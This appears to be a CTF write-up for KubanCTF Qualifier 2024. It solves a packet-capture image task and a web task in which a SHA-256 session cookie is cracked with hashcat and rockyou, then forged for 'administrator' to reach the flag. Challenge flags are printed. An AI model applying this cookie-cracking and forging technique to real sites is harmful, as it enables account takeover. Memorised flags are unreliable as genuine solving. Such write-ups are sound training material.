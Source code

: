 # KubanCTF Qualifier 2024 Write-up

![image](https://github.com/user-attachments/assets/aadb302f-e910-4f33-ac24-ef0ba71a2355)

## Not broken

File -> export object -> HTTP

![image](https://github.com/user-attachments/assets/efd0be5b-9507-4357-ba2e-1f198689b7e1)

Save largest packet and open it

We can see that is request to image

![image](https://github.com/user-attachments/assets/ae510eff-c398-41c9-b681-03047ea8723a)

Delete everything up to %PNG and save as a png file 

## WEB

### WEB - Примечание

![image](https://github.com/user-attachments/assets/5e8b51ff-ed39-44d6-b7a2-1ec88044fe47)

![image](https://github.com/user-attachments/assets/4a8c3879-3f5e-45e6-b85e-bd19d882ef44)

![image](https://github.com/user-attachments/assets/759a79e2-0319-4c5c-9c88-a9e46828fede)

![image](https://github.com/user-attachments/assets/db1a1837-c470-410b-bce6-651cfc55e770)

![image](https://github.com/user-attachments/assets/d2f501ea-be2e-4a50-944c-f0dc823deba8)

Request

    GET /profile.php HTTP/1.1
    Host: 62.173.147.143:16004
    Accept: */*
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.216 Safari/537.36
    X-Requested-With: XMLHttpRequest
    Referer: http://62.173.147.143:16004/
    Accept-Encoding: gzip, deflate, br
    Accept-Language: ru-RU,ru;q=0.9
    Cookie: Token=ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    Connection: close

Our token is `ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`

    hashcat ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae
    
    hashcat -m 1400 -a 0 'ecd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae' /home/kali/wordlist/rockyou.txt

![image](https://github.com/user-attachments/assets/03c4eca3-5f3d-4a48-815e-45ff70c44c12)

![image](https://github.com/user-attachments/assets/42c070bf-0377-4030-aee0-bbbcc73bd5ba)

   `cd71870d1963316a97e3ac3408c9835ad8cf0f3c1bc703527c30265534f75ae`:`test123`

   ![image](https://github.com/user-attachments/assets/21981efc-cd52-490e-a6f0-e40c0a05a401)

administrator@codeby.games

    echo -n 'administrator' | sha256sum 

![image](https://github.com/user-attachments/assets/62c848cc-3846-424d-981e-387d711d5d1e)

    4194d1706ed1f408d5e02d672777019f4d5385c766a8c6ca8acba3167d36a7b9

![image](https://github.com/user-attachments/assets/61fb9b8b-3909-434f-801b-f04eda3fabdb)

![image](https://github.com/user-attachments/assets/ba360d09-40dc-4633-b1e5-8732834be5ec)

FLAG:

    CSC{sup3r_w34k_co0ki3}

## WEB - What's missing?

![image](https://github.com/user-attachments/assets/8408fc1b-ceb0-4b6d-98b8-e6a56f5107db)

![image](https://github.com/user-attachments/assets/8bacbcba-8ff8-46fe-bf09-47eb96989414)

![image](https://github.com/user-attachments/assets/22bb170f-6bd7-4eb9-9ba4-9edb46924d14)

FLAG:

    CSC{7H3_L1M174710NS_4R3_0NLY_1N_0UR_H34DS}
